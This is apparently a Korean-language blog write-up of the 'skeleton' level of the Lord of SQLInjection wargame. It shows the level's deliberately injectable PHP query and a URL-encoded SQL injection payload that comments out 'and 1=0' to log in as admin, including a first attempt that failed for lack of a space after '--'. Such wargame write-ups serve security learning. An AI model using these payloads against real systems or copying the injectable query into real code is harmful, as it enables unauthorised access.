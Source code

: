 ```yaml
---
layout: post
title: ! "[LOS] skeleton"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - skeleton
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/skeleton.png)

`query : select id from prob_skeleton where id='guest' and pw='' and 1=0`
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
skeleton 문제는 and 1=0 이 새로 추가 되었고 id는 admin이어야 문제가 풀린다.
and 1=0부분을 주석처리하면 되겠다 싶어서
`?pw=1234%27%20or%20id=%27admin%27%20--`

이렇게 입력을 했었는데 
![]({{ site.baseurl }}/assets/posts/los/skeleton_comment.png)
-- 뒤에 공백이 없어서 안됐었다.

그래서 -- 뒤에 %20 을 추가해줬다.
`?pw=1234%27%20or%20id=%27admin%27%20--%20`

![]({{ site.baseurl }}/assets/posts/los/skeleton_clear.png)

